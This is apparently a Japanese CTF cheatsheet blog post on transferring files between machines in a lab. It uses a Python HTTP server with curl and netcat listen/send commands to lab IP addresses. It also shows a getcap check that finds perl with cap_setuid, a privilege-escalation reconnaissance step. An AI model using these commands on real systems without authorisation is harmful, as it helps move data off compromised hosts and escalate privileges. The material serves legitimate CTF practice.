 ```yaml
---
layout: post
title: ファイル転送
published : true
tags: CTF Common cheatsheet linux "file trancefer"
---
```

## linux
### curl
#### 送信側(待受)
```sh
python3 -m http.server 8888
```
#### 受信側
```sh
curl 10.10.14.14:8888/src.file -o dst.file
```
### nc
#### 受信側(待受)
```sh
nc -lvnp 9999 > some-file-name.tar.gz
```
#### 送信側
```sh
nc 10.11.42.116 9999 < ff.tar.gz
```
### Capabilityを調べる
```sh
david@nunchucks:/opt$ which perl
/usr/bin/perl
david@nunchucks:/opt$ getcap /usr/bin/perl
/usr/bin/perl = cap_setuid+ep
```
